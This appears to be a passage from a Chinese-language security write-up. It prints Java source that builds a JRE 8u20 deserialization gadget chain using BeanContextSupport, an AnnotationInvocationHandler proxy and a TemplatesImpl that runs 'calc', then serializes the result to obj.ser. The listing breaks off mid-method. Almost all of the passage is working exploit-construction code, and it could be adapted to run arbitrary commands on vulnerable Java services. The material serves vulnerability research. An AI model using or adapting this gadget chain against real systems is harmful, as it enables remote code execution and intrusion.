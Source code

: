#### ****构造代码****

相关代码上传 github

```java
package com.haby0.deserialization.JRE8u20;

import com.haby0.deserialization.JDK7u21;
import com.haby0.deserialization.JRE8u20.myutil.TCObjectOutputStream;
import com.haby0.deserialization.util.ClassFiles;
import com.haby0.deserialization.util.ClassLoaderImpl;
import com.haby0.deserialization.util.Reflections;
import com.sun.org.apache.xalan.internal.xsltc.DOM;
import com.sun.org.apache.xalan.internal.xsltc.TransletException;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import com.sun.org.apache.xml.internal.dtm.DTMAxisIterator;
import com.sun.org.apache.xml.internal.serializer.SerializationHandler;
import javassist.ClassClassPath;
import javassist.ClassPool;
import javassist.CtClass;

import javax.xml.transform.Templates;
import java.io.*;
import java.beans.beancontext.BeanContextSupport;
import java.lang.reflect.*;
import java.util.*;

public class App {
    public static void main(String[] args) throws Exception {
        BeanContextSupport bcs = new BeanContextSupport();

        Class cc = Class.forName("java.beans.beancontext.BeanContextSupport");
        Field serializable =  cc.getDeclaredField("serializable");
        serializable.setAccessible(true);
        serializable.set(bcs, 1);
        
        TemplatesImpl calc = JDK7u21.createTemplatesImpl("calc", TemplatesImpl.class, AbstractTranslet.class, TransformerFactoryImpl.class);

        HashMap map = new HashMap();
        map.put("f5a5a608", "aaaa");

        InvocationHandler tempHandler = (InvocationHandler) Reflections.getFirstCtor("sun.reflect.annotation.AnnotationInvocationHandler").
                newInstance(Templates.class, map);

        final Class<?>[] allIfaces = (Class<?>[]) Array.newInstance(Class.class,1);
        allIfaces[0] = Templates.class;
        Templates templates = (Templates)Proxy.newProxyInstance(JDK7u21.class.getClassLoader(), allIfaces, tempHandler);

        LinkedHashSet set = new LinkedHashSet();
        set.add(calc);
        set.add(templates);

        TCObjectOutputStream oos = new TCObjectOutputStream(new FileOutputStream("obj.ser"));
        oos.setTemplates(templates);
        oos.setTemplatesImpl(calc);
        oos.setInvocationHandler(tempHandler);
        oos.setBeanContextSupport(bcs);
        oos.setLhs(set);

```